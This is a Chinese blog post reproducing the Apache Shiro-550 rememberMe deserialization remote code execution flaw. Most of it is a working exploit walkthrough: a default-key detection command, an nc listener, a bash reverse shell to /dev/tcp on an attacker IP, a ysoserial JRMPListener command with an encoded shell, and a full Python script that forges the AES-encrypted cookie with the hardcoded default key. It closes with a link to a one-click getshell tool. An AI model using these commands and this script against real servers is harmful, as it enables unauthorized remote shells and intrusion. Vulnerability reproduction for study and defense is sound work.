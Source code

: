 # Shiro rememberMe反序列化漏洞(Shiro-550)复现


### 漏洞原理

Apache Shiro框架提供了记住密码的功能（RememberMe），用户登录成功后会生成经过加密并编码的cookie。在服务端对rememberMe的cookie值，先base64解码然后AES解密再反序列化，就导致了反序列化RCE漏洞。
**Payload产生的过程：**
命令=>序列化=>AES加密=>base64编码=>RememberMe Cookie值
在整个漏洞利用过程中，比较重要的是AES加密的密钥，如果没有修改默认的密钥那么就很容易就知道密钥了,Payload构造起来也是十分的简单。

### 影响版本

Apache Shiro < 1.2.4



### 特征判断

返回包中包含`rememberMe=deleteMe`字段



### 演示

> 文中的配图有点不一致，别介意，环境问题



#### 系统界面如图

<img src="http://image.xpshuai.cn/shiro1.jpg"></img>



#### 抓包查看

可以看到是Shiro

<img src="http://image.xpshuai.cn/shiro2.jpg"></img>

#### 1.检查是否存在默认的key

工具链接：https://github.com/insightglacier/Shiro_exploit

```bash
python shiro_exploit.py -u http://<IP>:7080
```

检测的key保存下来一会用



#### 2.制作反弹shell代码

2.1 vps监听端口

```bash
nc -lvvp 7788
```

<img src="http://image.xpshuai.cn/shiro3.jpg"></img>

2.2 Java Runtime 配合 bash 编码，
在线编码地址：http://www.jackson-t.ca/runtime-exec-payloads.html

```bash
bash -i >& /dev/tcp/202.xx.xx.xx/7788 0>&1	# ip为攻击机的地址
```

<img src="http://image.xpshuai.cn/shiro4.jpg"></img>

#### 3.通过ysoserial中JRMP监听模块，监听6666端口并执行反弹shell命令

上一步的反弹shell的命令编码结果写到下面

```bash
java -cp ysoserial.jar ysoserial.exploit.JRMPListener 6666 CommonsCollections6 'bash -c {echo,YmFzaCAtxxxxxxzYuxxxxxxxxxxxxQ==}|{base64,-d}|{bash,-i}'	# 这里用的CommonsCollections4
```

<img src="http://image.xpshuai.cn/shiro5.jpg"></img>

#### 4.使用shiro.py 生成Payload

```bash
python shiro.py 122.xx.xx.xx:6666
```

<img src="http://image.xpshuai.cn/shiro6.jpg"></img>

其中shiro.py代码如下：

```bash
import sys
import uuid
import base64
import subprocess
from Crypto.Cipher import AES
def encode_rememberme(command):
    popen = subprocess.Popen(['java', '-jar', 'ysoserial.jar', 'CommonsCollections6', command], stdout=subprocess.PIPE)	# 这里要注意用哪个JRMPClient
    BS = AES.block_size
    pad = lambda s: s + ((BS - len(s) % BS) * chr(BS - len(s) % BS)).encode()
    key = base64.b64decode("fCq+/xW488hMTCD+cmJ3aQ==")	# 这里的key要提前枚举出来
    iv = uuid.uuid4().bytes
    encryptor = AES.new(key, AES.MODE_CBC, iv)
    file_body = pad(popen.stdout.read())
    base64_ciphertext = base64.b64encode(iv + encryptor.encrypt(file_body))
    return base64_ciphertext

if __name__ == '__main__':
    payload = encode_rememberme(sys.argv[1])   
print "rememberMe={0}".format(payload.decode())


```



#### 5.构造数据包，伪造cookie，发送Payload.

<img src="http://image.xpshuai.cn/shiro7.jpg"></img>

#### 6.nc监听端口，shell成功反弹

<img src="http://image.xpshuai.cn/shiro8.jpg"></img>

------



PS：[后来发现这个好用的工具](https://github.com/feihong-cs/ShiroExploit)，一键检测&getshell，好用极了



> 我应该去学学java编程了，看大佬们写的各种工具，羡慕极了

---

> 作者: [剑胆琴心](http://geoer.cn)  
> URL: https://shuai06.github.io/shiro-rememberme%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E-shiro-550-%E5%A4%8D%E7%8E%B0/  

